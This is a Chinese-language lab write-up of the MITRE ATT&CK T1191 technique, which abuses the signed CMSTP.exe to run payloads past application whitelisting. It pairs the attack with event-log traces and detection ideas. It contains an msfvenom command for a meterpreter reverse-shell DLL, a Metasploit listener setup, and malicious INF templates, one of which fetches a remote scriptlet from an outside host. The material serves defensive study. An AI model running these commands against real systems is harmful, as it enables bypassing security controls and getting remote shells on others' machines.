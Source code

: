 # T1191-win-基于白名单Cmstp.exe执行Payload

## 来自ATT&CK的描述

微软的命令行程序CMSTP.exe用于安装连接管理器服务配置文件。CMSTP.exe将收到的安装信息文件（INF）作为参数，安装用于远程访问连接的服务配置文件。

攻击者可能会向CMSTP.exe提供带恶意命令的INF文件。与Regsvr32/"Squiblydoo"类似，CMSTP.exe可能被滥用来从远程服务器加载和执行动态链接库和/或COM脚本小程序。攻击者还可能用CMSTP.exe来绕过AppLocker及其他白名单防御，因为CMSTP.exe本身是一个合法的、已签名的微软应用。

CMSTP.exe也可能被滥用来绕过用户账号控制并通过自动升级的COM接口执行INF文件中的任意恶意命令。

## 测试案例

Cmstp安装或删除“连接管理器”服务配置文件。如果不含可选参数的情况下使用，则 cmstp 会使用对应于操作系统和用户的权限的默认设置来安装服务配置文件。

微软官方文档：
<https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp>

说明：Cmstp.exe所在路径已被系统添加PATH环境变量中，因此，Cmstp命令可识别，需注意x86，x64位的Cmstp调用。

Windows 2003 默认位置：

```dos
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53  -f dll -o payload.dll
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### inf模板

```inf
    [version]
    Signature=$chicago$
    AdvancedINF=2.5
    [DefaultInstall_SingleUser]
    UnRegisterOCXs=UnRegisterOCXSection
    [UnRegisterOCXSection]
     C:\payload.dll
    [Strings]
    AppAct = "SOFTWARE\Microsoft\Connection Manager"
    ServiceName="12306Br0"
    ShortSvcName="12306Br0"
```

INF文件的RegisterOCXSection需要包含恶意DLL文件的本地路径或远程执行的WebDAV位置

#### 靶机执行payload

```cmd
cmstp.exe /ni /s C:\Users\12306Br0\Desktop\a\add.inf
```

#### 反弹shell

未成功获取到shell

## 测试留痕

```log
windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0x9b0
新进程名: C:\Windows\System32\cmstp.exe

sysmon日志
事件ID：1
OriginalFileName: CMSTP.EXE
CommandLine: cmstp.exe  /ni /s C:\Users\12306Br0\Desktop\a\add.inf
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-0020eae10600}
LogonId: 0x6e1ea
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=BA135738EF1FB2F4C2C6C610BE2C4E855A526668
ParentProcessGuid: {bb1f7c32-fdb7-5e9a-0000-0010563b2d00}
ParentProcessId: 1988
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"
```

## inf文件内容

```inf
    [version]
    Signature=$chicago$
    AdvancedINF=2.5
    [DefaultInstall_SingleUser]
    UnRegisterOCXs=UnRegisterOCXSection
    [UnRegisterOCXSection]
    %11%\scrobj.dll,NI,http://192.168.1.4/cmstp_rev_53_x64.sct
    [Strings]
    AppAct = "SOFTWARE\Microsoft\Connection Manager"
    ServiceName="Micropoor"
    ShortSvcName="Micropoor"
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1191

<https://attack.mitre.org/techniques/T1191/>

windows下基于白名单获取shell的方法整理（下）

<http://www.safe6.cn/article/157#directory030494471069429444>

基于白名单Cmstp.exe执行payload第十六季

<https://www.bookstack.cn/read/Micro8/Chapter1-81-90-87_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Cmstp.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%8D%81%E5%85%AD%E5%AD%A3.md>
